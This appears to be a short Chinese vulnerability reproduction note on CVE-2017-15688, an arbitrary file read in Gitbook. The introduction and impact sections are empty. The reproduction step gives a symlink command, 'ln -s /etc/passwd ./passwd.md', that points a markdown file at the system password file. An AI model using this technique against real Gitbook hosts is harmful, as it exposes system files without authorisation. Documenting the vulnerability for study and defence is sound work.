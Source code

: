 ```yaml
---
title: "（CVE-2017-15688）Gitbook 任意文件读取"
id: zhfly2955
---
```


# （CVE-2017-15688）Gitbook 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

创建一个md文件，代码用以下

```
ln -s /etc/passwd ./passwd.md 
```

![image](../img/7530e25c475fb879a710f837cf9a7945.png)